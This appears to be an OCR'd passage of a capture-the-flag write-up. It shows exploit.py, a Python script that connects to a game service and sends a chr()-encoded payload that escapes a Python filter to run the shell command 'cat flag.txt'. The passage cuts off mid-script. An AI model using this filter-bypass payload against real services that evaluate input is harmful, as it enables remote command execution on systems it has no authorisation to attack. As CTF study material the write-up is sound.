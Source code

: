 ```bash
        with conn:
            print(f"Connection from {addr}")
            handle_client(conn)
    sys.exit(0)

if __name__ == "__main__":
    main()
    ```
2.  **Exploit Development:** Created a Python script (`exploit.py`) to:
    *   Connect to the remote service (`exp.cybergame.sk:7002`).
    *   Define a function `build_payload(command)` that takes a shell command string and constructs the bypass payload using `chr()` encoding.
    *   Send the generated payload to the service.
    *   Receive and print the response.
    `exploit.py`
    
```bash
    #!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    command = "cat flag.txt" # Changed command to cat the flag file

    payload = build_payload(command)

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

```